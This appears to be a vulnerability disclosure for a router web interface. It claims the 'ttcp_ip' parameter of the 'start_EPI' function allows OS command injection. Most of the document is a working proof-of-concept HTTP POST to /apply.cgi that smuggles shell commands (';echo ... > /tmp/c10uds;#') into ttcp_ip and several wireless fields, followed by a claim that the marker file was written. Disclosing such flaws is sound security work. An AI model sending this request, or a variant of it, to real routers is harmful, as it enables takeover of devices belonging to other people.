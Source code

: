 # ttcp_ip

in function `start_EPI`, we can inject `ttcp_ip` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 380
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_ant=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_ssid=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_rate=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&ttcp_num=1000&ttcp_ip=%3Becho%20%22hacker_payload_ttcp_ip%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s%3B&ttcp_size=114514
```



# result
I successfully touch a file with the content "hacker_payload_ttcp_ip"
![alt text](imgs/image.png)